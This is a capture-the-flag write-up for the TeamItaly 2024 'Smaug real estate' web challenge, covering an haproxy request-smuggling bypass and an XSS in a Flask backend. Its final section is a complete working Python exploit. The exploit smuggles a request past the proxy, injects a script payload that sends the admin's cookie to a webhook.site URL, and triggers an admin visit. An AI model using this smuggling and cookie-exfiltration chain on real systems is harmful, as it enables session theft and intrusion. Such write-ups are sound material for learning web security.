


# TeamItaly Preselection CTF 2024

## [web] Smaug real estate (10 solves)

Here at Smaug real estate you can find the perfect property that fit your needings... if you're wealthy enough. A brilliant team of security engineers reviewed our website and they found nothing, so there's nothing we have to worry about.

Site: [http://smaug.challs.external.open.ecsc2024.it:38317](http://smaug.challs.external.open.ecsc2024.it:38317)

Author: Simone Cimarelli <@AquilaIrreale>
Author: Vittorio Mignini <@M1gnus>

## Overview

The system exposes an instance of haproxy configured as following:

```haproxy
global
  log stdout format raw local0

defaults
    mode http

    timeout connect 30s
    timeout client  30s
    timeout server  30s
    
    option httplog
    log global

frontend http-incoming
    bind *:80
    http-request set-path /api/v1/forbidden if { path_beg /api/v1/proposals }
    use_backend backend if { path_beg /api/v1 }
    default_backend frontend

backend backend
    http-request replace-path /api/v1(/)?(.*) /\2
    server backend backend:80 pool-purge-delay 30s
    http-reuse always

backend frontend
    server frontend frontend:3000 pool-purge-delay 30s
    http-reuse always

```

Basically there is two services, a frontend and a backend. The endpoints under /api/v1/proposal are protected from external access:

```py
@app.get("/proposals")
def get_proposals():
    return proposals


@app.get("/proposals/<string:uuid>")
def get_proposal(uuid):
    try:
        uuid = UUID(uuid, version=4)
    except ValueError:
        return "Not found", 404

    try:
        proposal = proposals[str(uuid)]
        return dedent(f"""
        <html>
            <head>
                <title>{proposal["name"]}</title>
            </head>
            <body>
                TODO: implement proposal description page
            </body>
        </html>
        """)
    except KeyError:
        return "Not found", 404


@app.post("/proposals")
def post_proposal():
    try:
        body = request.json
        uuid = UUID(body["uuid"], version=4) 
        name = body["name"]
        price = int(body["price"])
        description = body["description"]
        seller = body["seller"]
        exp = datetime.now() + timedelta(minutes=10)
    except Exception as e:
        return "Unprocessable entity", 422

    proposals[str(uuid)] = {
        "name": name,
        "price": price,
        "description": description,
        "seller": seller,
        "exp": exp,
    }

    return "Created", 201
```

## Solution

if a user manage to use the endpoint `POST /proposal`, he can inject a proposal into the system. The parameter `name` is reflected in an insecure way if someone visits `GET /proposal/<uuid>`, potentialli causing an XSS.

The flag is stored in a cookie of admin's browser, as stated by the following backend code:

```py
@app.post("/")
def admin_login():
    secret = request.json["secret"]
    resp = make_response("")
    if secret == HEADLESS_AUTH:
        resp.set_cookie(
            "FLAG",
            FLAG,
            secure=False,
            httponly=False)
    return resp
```

and if a user manage to inject a malicious proposal, he can notify an admin about the proposal using the opportune functionality of frontend, causing the XSS to be triggered and can be used to exfiltrate the flag with a trivial webhook like `ngrok` or `webhook.site`:





## Exploit

```py
import socket
import requests
from hashlib import sha256

WEBHOOK_URL = "https://webhook.site/678c785f-d79e-4ff7-a8d1-4ee25f12a717"
CTF_HOST = "localhost"
CTF_PORT = 80

FIRST_REQUEST = (
    "GET /api/v1/ HTTP/1.1\r\n" +
    "Host: localhost\r\n" +
    "Content-Length: {}\r\n" +
    "Sec-Websocket-Key1: x\r\n" +
    "\r\n" +
    "xxxxxxxx"
)
SECOND_REQUEST_BODY = f'{{"uuid": "453aaf90-0775-414f-a104-90cf543c96db", "name": "xss</title></head><body><script>fetch(`{WEBHOOK_URL}?${{document.cookie}}`, {{\\"mode\\": \\"no-cors\\"}})</script></body><!--", "price": "40", "description": "a", "seller": "a"}}'
SECOND_REQUEST = (
    "POST /proposals HTTP/1.1\r\n" +
    "Host: localhost\r\n" +
    "Content-Type: application/json\r\n" +
    f"Content-Length: {len(SECOND_REQUEST_BODY)}\r\n" +
    "\r\n" +
    SECOND_REQUEST_BODY +
    "\r\n\r\n"
)

content_length = 8 + len(SECOND_REQUEST)
SMUGGLED_REQUEST = FIRST_REQUEST.format(content_length) + SECOND_REQUEST

print(f"payload length: {content_length}\n{SMUGGLED_REQUEST.encode()}")

sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
sock.setblocking(True)
sock.connect((CTF_HOST, CTF_PORT))
sock.send(SMUGGLED_REQUEST.encode())
sock.recv(1024)
sock.close()

requests.get(f"http://{CTF_HOST}:{CTF_PORT}/api/v1/")
pow = requests.get(f"http://{CTF_HOST}:{CTF_PORT}/api/v1/pow").json()
sol = ""
i = 1
while sha256(sol.encode()).hexdigest()[-5:] != pow["pow"]:
    sol = str(i)
    i += 1
requests.post(f"http://{CTF_HOST}:{CTF_PORT}/api/v1/notify", json={"proposal_uuid": "453aaf90-0775-414f-a104-90cf543c96db", "pow_uuid": pow["uuid"], "pow_solution": sol})
```
